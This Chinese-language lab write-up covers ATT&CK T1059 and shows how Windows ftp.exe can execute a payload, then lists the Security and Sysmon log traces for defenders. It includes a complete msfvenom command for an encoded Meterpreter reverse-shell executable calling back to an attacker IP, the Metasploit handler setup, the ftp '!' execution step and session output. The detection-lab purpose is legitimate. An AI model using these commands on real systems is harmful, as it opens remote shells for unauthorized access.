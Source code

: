 # T1059-win-基于白名单Ftp.exe执行Payload

## 来自ATT&CK的描述

命令行界面是与计算机系统交互的一种方式，并且是很多操作系统平台的常见特性。例如，Windows系统上的命令行界面cmd可用于执行许多任务，包括执行其他软件。命令行界面可在本地交互或者通过远程桌面应用、反向shell会话等远程交互。执行的命令以命令行界面进程的当前权限级别运行，除非该命令需要调用进程来更改权限上下文（例如，定时任务）。

攻击者可能会使用命令行界面与系统交互并在操作过程中执行其他软件。

## 测试案例

Ftp.exe是Windows本身自带的一个程序，属于微软FTP工具，提供基本的FTP访问。

说明：Ftp.exe所在路径已被系统添加PATH环境变量中，因此，Ftp.exe命令可识别。

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

Windows 2003 默认位置：
C:\Windows\System32\ftp.exe

C:\Windows\SysWOW64\ftp.exe

Windows 7 默认位置：

C:\Windows\System32\ftp.exe

C:\Windows\SysWOW64\ftp.exe

## 检测日志

windows 安全日志/SYSMON日志（需要自行安装）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：windows server 2012

### 攻击分析

#### 生成payload.exe

```bash
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=192.168.126.146 LPORT=53 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 3 -f exe -o payload.exe
```

#### 执行监听

攻击机,注意配置set AutoRunScript migrate f (AutoRunScript是msf中一个强大的自动化的后渗透工具，这里migrate参数是迁移木马到其他进程)

```bash
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.126.146
lhost => 192.168.126.146
msf5 exploit(multi/handler) > set lport 53
lport => 53
msf5 exploit(multi/handler) > set AutoRunScript migrate -f
AutoRunScript => migrate -f
msf5 exploit(multi/handler) > exploit
```

#### 执行payload

```cmd
ftp>!C:\Users\12306Br0\Desktop\a\payload.exe
```

#### 反弹shell

```bash
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.126.146:53
[*] Sending stage (180291 bytes) to 192.168.126.149
[*] Meterpreter session 1 opened (192.168.126.146:53 -> 192.168.126.149:49219) at 2020-04-18 20:08:18 +0800
[*] Session ID 1 (192.168.126.146:53 -> 192.168.126.149:49219) processing AutoRunScript 'migrate -f'
[!] Meterpreter scripts are deprecated. Try post/windows/manage/migrate.
[!] Example: run post/windows/manage/migrate OPTION=value [...]
[*] Current server process: payload.exe (2324)
[*] Spawning notepad.exe process to migrate to
[+] Migrating to 2888
[+] Successfully migrated to process

meterpreter > getuid
Server username: 12306Br0-PC\12306Br0

```

## 测试留痕

```log
EventID:4688 #安全日志，windows server 2012以上配置审核策略，可对命令参数进行记录
进程信息:
新进程 ID: 0x474
新进程名: C:\Windows\System32\cmd.exe

EventID:4688
进程信息:
新进程 ID: 0x3f8
新进程名: C:\Users\12306Br0\Desktop\a\payload.exe

EventID:5156
应用程序信息:
进程 ID: 1016
应用程序名称: \device\harddiskvolume2\users\12306br0\desktop\a\payload.exe

网络信息:
方向: 出站
源地址: 192.168.126.149
源端口: 49221
目标地址: 192.168.126.146
目标端口: 53
协议: 6

EventID:1 #sysmon日志
Image: C:\Windows\System32\cmd.exe
FileVersion: 6.1.7601.17514 (win7sp1_rtm.101119-1850)
Description: Windows Command Processor
Product: Microsoft® Windows® Operating System
Company: Microsoft Corporation
OriginalFileName: Cmd.Exe
CommandLine: C:\Windows\system32\cmd.exe /C C:\Users\12306Br0\Desktop\a\payload.exe
CurrentDirectory: C:\Windows\system32\
User: 12306Br0-PC\12306Br0
LogonGuid: {bb1f7c32-e7a1-5e9a-0000-0020ac500500}
LogonId: 0x550ac
TerminalSessionId: 1
IntegrityLevel: High
Hashes: SHA1=0F3C4FF28F354AEDE202D54E9D1C5529A3BF87D8
ParentProcessGuid: {bb1f7c32-ed99-5e9a-0000-00105addaf00}
ParentProcessId: 1112
ParentImage: C:\Windows\System32\ftp.exe
ParentCommandLine: ftp
```

## 检测规则/思路

无具体检测规则，可根据进程创建事件4688/1（进程名称、命令行）进行监控。本监控方法需要自行安装配置审核策略/sysmon。

## 参考推荐

MITRE-ATT&CK-T1059

<https://attack.mitre.org/techniques/T1059/>

基于白名单Ftp.exe执行Payload

<https://www.77169.net/html/235306.html>

基于白名单的Payload

s<https://blog.csdn.net/weixin_30790841/article/details/101848854>
